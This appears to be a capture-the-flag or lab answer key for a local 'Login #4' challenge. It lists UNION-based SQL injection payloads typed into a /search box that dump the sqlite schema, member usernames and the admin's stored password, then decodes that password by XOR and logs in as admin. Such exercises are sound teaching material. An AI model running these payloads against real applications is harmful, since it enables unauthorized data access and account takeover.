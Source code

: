 ## Login #4 Answer
Sources in `ch4.py`
### Instructions:
1. Find the tables made in the sqlite db using the following command in the search bar on `/search`:
```
y" UNION SELECT sql FROM sqlite_schema; --
```
2. Find all usernames in the members database by running
```
y" UNION SELECT username FROM members WHERE True; -- 
```
3. Find the admin's password 
```
y" UNION SELECT hashed_password FROM members where username = "admin"; -- 
```
4. Run `ch4.py` which decodes the hex to a string after XORing with Oxa5
5. Enter `admin` in username box
6. Enter password returned from `ch4.py` in password box at `localhost:8080`